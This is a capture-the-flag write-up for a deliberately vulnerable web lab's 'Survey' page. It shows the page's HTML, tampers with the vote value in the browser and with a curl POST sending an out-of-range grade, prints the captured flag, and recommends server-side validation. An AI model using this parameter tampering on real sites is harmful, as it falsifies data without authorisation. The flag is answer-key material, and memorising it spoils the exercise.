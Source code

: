 # <span style="text-decoration: underline">Survey</span>

- Tags : `html`, `source code`, `form` , `POST`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>
___

## <span style="text-decoration: underline">problem</span>
When we go to the `SURVEY` tab we see the following content
![survey index](/.resources/images/survey_index.png)

Here we can see a table where user can select a number between 1-10 by clicking the value on a `pick list` in the **Grade** column. When we select a value from the `pick list` the page get refreshed and nothing happens. When we see the source code of the table we can see the following

```html
<table width="50%" style="margin-left: auto; margin-right: auto;">
<caption><p>Make your choice</caption><br /><br /></p>
	<tbody>
		<tr bgcolor="Gray">
			<td align="center">Grade</td>
			<td align="center">Average</td>
			<td align="center">Subject</td>
			<td align="center">Nb of vote(<em>indicative</em>)</td>
		</tr>
			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
4214.23			</td>
			<td align="center">

Laurie			</td>
			<td align="center">
4260			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="3">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
5.23529			</td>
			<td align="center">

Mathieu			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="4">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
8.64707			</td>
			<td align="center">

Thor			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="5">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
9.1			</td>
			<td align="center">

Ly			</td>
			<td align="center">
666			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="6">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
6.969			</td>
			<td align="center">

Zaz			</td>
			<td align="center">
69			</td>
		</tr>
</table>
```
Here we can see two interesting things:

01. Each **Grade**  input is inside a form that does a `POST` request to the current page
02. When we select a value a `java script` function execute the `submit` function thus a submot request is sent.

!> The `hidden` input is not really importent for us.

## <span style="text-decoration: underline">Solution</span>

### Changing the value of the input field
Just like for the [recover](/recover?id=changing-the-value-of-the-input-field) challenge we can change the `html` `value` of one onf the `pick list` element (the list from 1-10) and select that value as our **Grade**
![survey modified value](/.resources/images/survey_index_modified_value.png)

And we get the following result
![survey flag](/.resources/images/survey_flag.png)

### Using [`Curl`](https://curl.se/)

Ofcorse the same request could be sent using `Curl` from our terminal and it would look like this

```bash
$ curl -s -d 'sujet=2&valeur=11' -X POST 'http://192.168.1.23/?page=survey'  | grep flag 
<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
```

# How to avoid the problem
One way to avoid this problem would be a serverside checking of the data as we can control what we are sending.

# Flag

```text
03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
```
